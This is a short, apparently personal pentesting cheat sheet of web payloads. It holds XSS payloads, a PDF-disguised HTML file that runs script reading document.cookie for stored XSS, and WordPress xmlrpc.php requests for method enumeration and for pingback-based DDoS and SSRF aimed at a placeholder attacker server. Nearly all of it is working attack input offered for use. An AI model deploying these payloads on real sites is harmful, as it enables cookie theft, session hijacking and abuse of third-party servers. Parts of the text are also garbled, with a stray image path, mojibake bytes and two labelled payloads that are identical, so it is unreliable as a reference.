 ```powershell

Succesful Payloads so Far

<p ondragend=[1].map(prompt) draggable="true">dragMe</p>

<img/src=x onerror=prompt(1)>


I had success recently also by uploading a .html file with pdf magic bytes at the strat with arbitary javascript to obtain stored XSS on a program.

Payload Below:


%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<h1>This is NOT a PDF!</h1> <img src=x onerror=alert(document.cookie)>
```


#### XMLRPC.php

```powershell


List all Methods
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>


DDoS

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>


SSRF 

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
